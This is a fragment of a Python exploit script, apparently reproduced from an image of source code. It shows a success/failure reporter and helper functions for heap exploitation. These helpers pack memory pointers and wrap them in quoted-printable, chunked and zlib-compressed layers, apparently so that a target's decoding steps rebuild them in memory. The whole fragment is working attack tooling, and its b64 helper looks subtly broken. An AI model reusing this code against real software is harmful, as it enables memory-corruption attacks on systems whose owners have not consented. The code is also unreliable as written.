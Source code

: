 ```python
            pass
        
        msg_print()
        
        if not self.sleep:
            msg_print("    [b white on black] EXPLOIT [/][b white on green] SUCCESS [/] [i](probably)[/]")
        elif start + self.sleep <= time.time():
            msg_print("    [b white on black] EXPLOIT [/][b white on green] SUCCESS [/]")
        else:
            # Wrong heap, maybe? If the exploited suggested others, use them!
            msg_print("    [b white on black] EXPLOIT [/][b white on red] FAILURE [/]")
        
        msg_print()


def compress(data) -> bytes:
    """Returns data suitable for `zlib.inflate`.
    """
    # Remove 2-byte header and 4-byte checksum
    return zlib.compress(data, 9)[2:-4]


def b64(data: bytes, misalign=True) -> bytes:
    payload = base64.encode(data)
    if not misalign and payload.endswith("="):
        raise ValueError(f"Misaligned: {data}")
    return payload.encode()


def compressed_bucket(data: bytes) -> bytes:
    """Returns a chunk of size 0x8000 that, when dechunked, returns the data."""
    return chunked_chunk(data, 0x8000)


def qpe(data: bytes) -> bytes:
    """Emulates quoted-printable-encode.
    """
    return "".join(f"={x:02x}" for x in data).upper().encode()


def ptr_bucket(*ptrs, size=None) -> bytes:
    """Creates a 0x8000 chunk that reveals pointers after every step has been ran."""
    if size is not None:
        assert len(ptrs) * 8 == size
    bucket = b"".join(map(p64, ptrs))
    bucket = qpe(bucket)
    bucket = chunked_chunk(bucket)
    bucket = chunked_chunk(bucket)
    bucket = chunked_chunk(bucket)
    bucket = compressed_bucket(bucket)

    return bucket


def chunked_chunk(data: bytes, size: int = None) -> bytes:
    """Constructs a chunked representation of the given chunk. If size is given, the
    chunked representation has size `size`.
    For instance, `ABCD` with size 10 becomes: `0004\nABCD\n`.
    """
    # The caller does not care about the size: let's just add 8, which is more than
    # enough
    if size is None:
```